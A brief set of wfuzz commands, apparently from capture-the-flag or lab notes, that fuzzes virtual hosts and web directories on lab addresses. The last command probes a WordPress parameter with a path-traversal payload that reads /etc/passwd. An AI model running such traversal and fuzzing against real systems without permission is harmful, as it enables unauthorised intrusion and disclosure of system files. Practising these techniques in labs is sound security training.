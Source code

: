 wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 400,404,403,302 -H "Host: FUZZ.hidden.lab" -u http://hidden.lab -t 100 


wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.129.66.79:5000/FUZZ

```
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 172.18.0.2/wordpress/index.php'?'FUZZ=../../../../../../../etc/passwd --hc 404 --hl 40
```

